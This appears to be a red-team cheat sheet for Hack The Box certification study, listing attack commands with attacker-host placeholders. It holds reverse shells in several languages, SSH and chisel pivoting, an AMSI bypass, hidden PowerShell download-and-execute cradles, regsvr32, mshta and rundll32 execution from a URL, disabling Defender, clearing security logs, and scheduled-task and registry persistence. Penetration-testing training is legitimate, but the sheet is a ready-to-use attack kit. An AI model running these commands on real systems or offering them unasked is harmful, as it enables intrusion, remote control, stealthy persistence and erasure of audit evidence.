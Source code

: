 # 🛠 HTB CDSA Red Team Reference

## 🔧 Variable Inputs

Before using the commands below, define your variables:

| Variable      | Description                         | Example             |
|---------------|-------------------------------------|---------------------|
| `{{LHOST}}`   | Local host IP (attacker)            | `10.10.14.7`        |
| `{{LPORT}}`   | Local port                          | `9001`              |
| `{{RHOST}}`   | Remote host IP (target)             | `10.10.10.32`       |
| `{{RPORT}}`   | Remote port                         | `443`               |
| `{{USER}}`    | Username                            | `mark`              |
| `{{FILENAME}}`| File name or payload name           | `nc.exe`            |
| `{{URL}}`     | Full URL to hosted payload          | `http://{{LHOST}}/{{FILENAME}}` |

---

## 🔁 Reverse Shells

| **Command** | **Description** | **Modifiers / Notes** |
|-------------|------------------|------------------------|
| `powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('{{LHOST}}',{{LPORT}});..."` | PowerShell TCP reverse shell | `-nop` = no profile, `-w hidden` = no window |
| `bash -i >& /dev/tcp/{{LHOST}}/{{LPORT}} 0>&1` | Bash reverse shell | Works on most Linux targets |
| `python -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("{{LHOST}}",{{LPORT}})); ...'` | Python reverse shell | Use `python3` if needed |
| `php -r '$sock=fsockopen("{{LHOST}}",{{LPORT}}); exec("/bin/sh -i <&3 >&3 2>&3");'` | PHP reverse shell | Requires PHP installed |
| `perl -e 'use Socket;$i="{{LHOST}}";$p={{LPORT}};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));...'` | Perl reverse shell | Legacy but effective |
| `nc -e /bin/sh {{LHOST}} {{LPORT}}` | Netcat reverse shell | Requires `-e` support |
| `nc -c /bin/bash {{LHOST}} {{LPORT}}` | Netcat with `-c` flag | Alpine or BusyBox targets |
| `socat TCP:{{LHOST}}:{{LPORT}} EXEC:/bin/bash` | Socat reverse shell | Use `-d -d` for debug |

---

## 🧩 Tunneling & Pivoting

| **Command** | **Description** | **Modifiers / Notes** |
|-------------|------------------|------------------------|
| `ssh -L 8080:localhost:80 {{USER}}@{{RHOST}}` | Local port forwarding | Access remote web service locally |
| `ssh -R 9001:localhost:22 {{USER}}@{{RHOST}}` | Remote port forwarding | Expose local SSH to remote |
| `ssh -D 1080 {{USER}}@{{RHOST}}` | Dynamic SOCKS proxy | Use with proxychains |
| `plink.exe -ssh {{USER}}@{{RHOST}} -L 8080:127.0.0.1:80` | Windows SSH tunneling | GUI alternative to OpenSSH |
| `chisel server -p {{LPORT}} --reverse` | Chisel reverse proxy server | Use `client` on target |
| `chisel client {{LHOST}}:{{LPORT}} R:9001:127.0.0.1:22` | Chisel client reverse tunnel | Pivot SSH from target |
| `proxychains nmap -sT -Pn -n -v {{RHOST}}` | Proxy-aware Nmap scan | Configure `/etc/proxychains.conf` |
| `sshuttle -r {{USER}}@{{RHOST}} 0.0.0.0/0` | Full VPN-like tunnel | Requires Python on both ends |
| `rdesktop {{RHOST}} -u {{USER}}` | RDP access | Use `xfreerdp` for clipboard/file sharing |

---

## 🛡️ Detection Bypass & Defense Evasion

| **Command** | **Description** | **Modifiers / Notes** |
|-------------|------------------|------------------------|
| `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)` | AMSI bypass in PowerShell | Use in-memory execution |
| `powershell -ep bypass -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('{{URL}}')"` | Bypass execution policy | `-ep bypass`, `-nop`, `-w hidden` |
| `regsvr32 /u /n /s /i:"{{URL}}" scrobj.dll` | COM scriptlet execution | Fileless, proxy-aware |
| `mshta "{{URL}}"` | HTA-based execution | Often whitelisted |
| `rundll32 javascript:"\..\mshtml,RunHTMLApplication";document.write('<script src="{{URL}}"></script>')` | JavaScript via DLL | Fileless, stealthy |
| `Set-MpPreference -DisableRealtimeMonitoring $true` | Disable Defender (if allowed) | Requires admin |
| `wevtutil cl Security` | Clear event logs | Highly suspicious |
| `schtasks /create /tn "Updater" /tr "{{FILENAME}}" /sc minute /mo 1` | Scheduled task persistence | Use `/ru SYSTEM` for privilege |
| `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t REG_SZ /d "{{FILENAME}}"` | Registry run key | User-level persistence |
| `InstallUtil.exe /logfile= /LogToConsole=false /U {{FILENAME}}` | DLL sideloading | Use with malicious .NET assemblies |

